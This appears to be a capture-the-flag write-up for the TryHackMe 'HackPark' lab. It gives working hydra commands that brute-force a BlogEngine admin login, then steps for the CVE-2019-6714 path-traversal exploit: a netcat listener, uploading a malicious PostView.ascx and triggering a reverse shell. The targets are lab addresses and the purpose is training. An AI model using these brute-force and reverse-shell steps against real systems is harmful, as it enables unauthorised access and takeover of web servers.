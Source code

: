 # HackPark Writeup

## Brute forcing Hydra
### If we navigate to the home page of our server, we are greeted by pennywise. When we press the hamburger icon, we get several options. With one of them being a login. Let's try that since our first task is using hydra to brute force logins. We are redirected to http://10.10.93.133/Account/login.aspx?ReturnURL=/admin/

### We can probably assume that the username will be admin. Actually, the first hint tells us that the username is admin. This makes bruteforcing exponentially quicker. This just saves us time, and doesn't necessarily make it any "easier" besides the time saving

### Let's log in with dummy credentials in order to capture all the arguments needed to brute force the credentials. If on firefox or chrome, enter CTRL + SHIFT + I before loggin in and go to the network tab.

### We notice 5 arguments. __VIEWSTATE, __EVENTVALIDATION, ctl00$MainContent$LoginUser$UserName, ctl00$MainContent$LoginUser$Password, ctl00$MainContent$LoginUser$LoginButton

### The first command I tried was
    - hydra -l admin -P ~/tools/rockyou.txt 10.10.181.8 http-post-form "/Account/login.aspx?ReturnURL=/admin/:ctl00$MainContent$LoginUser$UserName=^USER^&ctl00$MainContent$LoginUser$Password=^PASS^:Login failed"

### The reason I used this command is because in the past, I've only supplied the needed arguments for username and password. This didn't end up working, so that means that we should provide all of them.

### Second attempt
    - hydra -l admin -P ~/tools/rockyou.txt 10.10.181.1 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=ui7RM+iCE/bA9tKgBRfSyvpJRrJB7rfbtDJpI6UQ0h/42i8IvpDN3eq2b4X2xQ2R1YrU5PqyCFDxvaNTuwywGOto9GR/3UXWxNbl11VdpVHLi341sXVpPS5jgXimCXrSAotLIWWVOLMJxivhc2fuOnExZsgNFvHaUa2IZnUyqT6lTyyH&__EVENTVALIDATION=dGipPwMco9K5lkf29xxO1eYf4QamuLuzfGG86zE6HRAuJXN9kLwfQlzuaNf+BJM1AIW2zZi+n/jrPet2mlWhiZLYbInUPAodO9AEBjKk/6BYJ5VAv/b+0q9xGclIpOKJCNlEFMx7/eST0NJojOLC1ERu4Hpl3av1LG/e27hsFxPYNYIe&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

### This also didn't work! What gives? I was still getting false positives. Hydra was saying that all of its attempts were validating successfully. Then, I noticed that the arguments have odd characters. I decided to URL encode some of the funny characters that may be interfering with hydra. Third command: 
    - hydra -l admin -P ~/tools/rockyou.txt 10.10.93.133 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=3EP3vq6ynCC%2BE2JG9iaGIoJZyPvN41%2F9zSa0wgYGz4gr5yPADn9jWDB7J4yc54GZo3YTMCYihMgzZhq9pKzc22P%2BSeemeG%2FDlcE2Np77klkiMfquzAi%2Fuy%2BFWSBbcue4M6tl2DgSfaivwJ%2Bcz1ZP9B32F7KFBez%2Fr2NyBmhf0sGrR7Bh&__EVENTVALIDATION=qIukz%2FR5nG%2BOeg%2FfrsSEVkCV3vbeypnKdVNDu%2BIeH4hsrVuWXsY%2Beuf1CuioNkL%2FSC%2BbtWhtOU1oFlHM1NUDWbHJG6%2BakIxwSo9uhouIPOEEeOhHo2gsSfps201WU3t9McMmZSDxANysNPV6tBdaxEZnuFefLt9Dq8UwKRfNtc9frwDX&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

### Success finally! We got the credentials and we can login to the admin portal.

### Once we log in, we can see that Blog Engine v3.3.6.0 is running. We search exploit db, and we see that we have a LFI + RCE vulnerabilty with CVE-2019-6714. This script is located at: https://www.exploit-db.com/exploits/46353. The instructions mention that all we need for this to work is to 
1. Set up a netcast listener. Command: 
    - nc -lvnp 4445
2. Download the file and edit the method to point to your ip connected to the tryhackme vpn.
3. Edit the post. Click on the icon with the open folder to uplooad this document. Ensure it is titled PostView.ascx. 
4. Navigate to http://10.10.93.133/?theme=../../App_Data/files
5. You should have received a connection and now have a reverse shell!